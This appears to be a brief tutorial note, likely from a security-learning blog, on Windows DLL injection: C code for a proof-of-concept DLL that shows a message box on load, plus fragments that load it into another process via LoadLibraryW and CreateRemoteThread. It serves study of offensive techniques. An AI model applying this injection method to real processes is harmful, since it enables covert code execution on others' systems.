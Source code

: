 # Intro
It's basically the same as shellcode injection into a process but with like one or two more steps.

Basically DLL's have a switch statement in the main function telling them what to do when. So you can just treat the run on start case as a normal shellcode injector.

# Basic DLL
A POC for a msg box would be:
```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hModule, DWORD Reason, LPVOID lpvReserved) {

	switch (Reason) {

	case DLL_PROCESS_ATTACH:
		MessageBox(NULL, L"VALID TEXT", L"HI!!!", MB_ICONQUESTION | MB_OK);
		break;
	}

	return TRUE;
}
```

# DLL Injection POC
So once that is compiled instead of passing in the shellcode as a parameter to `CreateRemoteThread` you pass in the dll.

Setting up the DLL variables. 
```c
HANDLE hProcess, hThread = NULL;

wchar_t dllPath[MAX_PATH] = L"C:\\Users\\eljay\\source\\repos\\dllinjection\\mydll.dll";
size_t dllPathSize = sizeof(dllPath);
```

Get a handle to kernel 32 and load the dll:
```c
hKernel32 = GetModuleHandleW(L"Kernel32");
LPTHREAD_START_ROUTINE startThis = (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
```

Then run the remote thread.
```c
hThread = CreateRemoteThread(hProcess, NULL, 0, startThis, rBuffer, 0, &TID);

```

The rest of this code is just the boiler plate process injection from the last blog [link](./Shellcode%20Injection.md).
